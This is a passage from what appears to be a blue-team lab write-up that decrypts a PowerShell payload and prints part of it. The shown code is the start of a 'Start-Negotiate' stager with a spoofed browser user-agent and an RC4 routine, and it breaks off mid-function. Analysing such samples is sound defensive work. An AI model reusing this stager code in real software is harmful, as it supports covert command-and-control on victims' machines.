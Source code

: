 And I then copy paste the value.
Since the data is very long I won't copy it here.

## Decrypt payload

We then run our powershell command and we manage to decrypt it !

[![](/assets/images/btlo/pretium/c73b031651004d3f8eb8a908f5c4fea9.png){: .align-center}](/assets/images/btlo/pretium/c73b031651004d3f8eb8a908f5c4fea9.png)  

**Note**: I have been stuck for days because of Powershell ISE... For an unknwown reason to me, when running the code from ISE as a script I get a different result than from the powershell command line... Anyway it conviced me to never use ISE again.

The second payload with indentation:
```powershell
FUNCtIoN StARt-NeGOTiAte
{
    PArAm($s,$SK,$UA='MOzIlla/5.0 (Windows NT 6.1; WOW64; TrIDenT/7.0; rV:11.0) likE GeCKO',$HoP)
    
    FunCtION COnvERTTo-RC4ByteSTrEaM 
    {
        PaRaM ($RCK, $IN)
        beGIN 
        {
            [Byte[]] $STr = 0..255;$J = 0;0..255 | FoREaCh-ObjEcT 
            {
                $J = ($J + $Str[$_] + $RCK[$_ % $RCK.LeNGth]) % 256;
                $Str[$_], $STr[$J] = $Str[$J], $STr[$_];
            };
            $I = $J = 0;
        }
        PROcEss 
        {
            FOrEAch($BYTE iN $In) 
            {
                $I = ($I + 1) % 256;
                $J = ($J + $STr[$I]) % 256;$Str[$I], $STR[$J] = $Str[$J], $Str[$I];
                $BYTE -BXOR $Str[($STR[$I] + $STr[$J]) % 256];
            }
        }
```